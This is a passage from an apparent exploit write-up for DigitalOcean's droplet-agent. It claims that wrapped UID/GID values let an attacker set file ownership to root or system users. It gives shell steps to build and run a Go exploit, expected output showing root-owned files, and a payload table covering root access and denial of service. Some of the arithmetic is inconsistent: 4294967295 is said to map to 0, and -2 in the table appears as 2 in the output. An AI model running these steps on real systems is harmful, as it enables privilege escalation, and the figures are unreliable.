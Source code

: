 ```go
        fmt.Println()
    }
}
```

#### 4. Build and Run Exploit
```bash
# Set up Go module
export GO111MODULE=on
go mod init exploit
go mod edit -replace=github.com/digitalocean/droplet-agent=./droplet-agent

# Build exploit
go build -o exploit exploit_droplet_agent.go

# Run exploitation
./exploit
```

#### 5. Expected Results
```
serving: Root ownership (UID: 4294967295, GID: 4294967295)
  /tmp/droplet-serv/serv-file.txt -> UID: 0, GID: 0
  /tmp/droplet-serv/config.yaml -> UID: 0, GID: 0

serving: System user (UID: 4294967294, GID: 4294967294)
  /tmp/droplet-serv/serv-file.txt -> UID: 2, GID: 2
  /tmp/droplet-serv/config.yaml -> UID: 2, GID: 2

serving: Current user (UID: 4294968296, GID: 4294968296)
  /tmp/droplet-serv/serv-file.txt -> UID: 1000, GID: 1000
  /tmp/droplet-serv/config.yaml -> UID: 1000, GID: 1000
```

#### 6. Verification
```bash
# Check file ownership manually
ls -ln /tmp/droplet-serv/
# Should show unexpected ownership changes (root or system users)
```

## Detailed Exploitation Catalog

### Exploit Payloads

| Attack Type         | UID/GID Values      | Resulting ID | Impact                          |
|---------------------|---------------------|-------------|---------------------------------|
| **Root Access**     | 4294967295          | 0 (root)    | Full system compromise         |
| **System User**     | 4294967294          | -2 (system) | Privileged access              |
| **User Masquerade** | 4294967296 + UID    | Original UID | Permission bypass             |
| **DoS Attack**      | 2147483648          | -2147483648 | System instability            |
